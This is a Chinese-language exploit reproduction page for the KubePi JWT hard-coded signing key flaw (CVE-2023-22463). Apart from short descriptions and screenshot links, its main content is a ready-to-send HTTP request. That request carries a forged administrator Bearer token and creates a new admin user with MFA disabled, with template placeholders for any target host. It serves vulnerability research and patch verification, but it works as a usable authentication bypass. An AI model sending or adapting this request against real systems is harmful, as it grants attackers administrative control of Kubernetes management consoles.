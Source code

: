 **漏洞描述**

KubePi 中存在 JWT 硬编码，攻击者通过硬编码可以获取服务器后台管理权限，添加任意用户

**漏洞影响**

库贝派

**网络测绘**

“库贝皮”

**漏洞复现**

登陆页面

![image-20230815141909095](./KubePi JwtSigKey 登陆绕过漏洞（CVE-2023-22463）.assets/image-20230815141909095.png)

```
POST /kubepi/api/v1/users HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.127 Safari/537.36
accept: application/json
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJuaWNrTmFtZSI6IkFkbWluaXN0cmF0b3IiLCJlbWFpbCI6InN1cHBvcnRAZml0MmNsb3VkLmNvbSIsImxhbmd1YWdlIjoiemgtQ04iLCJyZXNvdXJjZVBlcm1pc3Npb25zIjp7fSwiaXNBZG1pbmlzdHJhdG9yIjp0cnVlLCJtZmEiOnsiZW5hYmxlIjpmYWxzZSwic2VjcmV0IjoiIiwiYXBwcm92ZWQiOmZhbHNlfX0.XxQmyfq_7jyeYvrjqsOZ4BB4GoSkfLO2NvbKCEQjld8

{
  "authenticate": {
       "password": "{{randstr}}"
  },
  "email": "{{randstr}}@qq.com",
  "isAdmin": true,
  "mfa": {
          "enable": false
   },
  "name": "{{randstr}}",
  "nickName": "{{randstr}}",
  "roles": [
       "Supper User"
  ]
}
```

![image-20230815141922835](./KubePi JwtSigKey 登陆绕过漏洞（CVE-2023-22463）.assets/image-20230815141922835.png)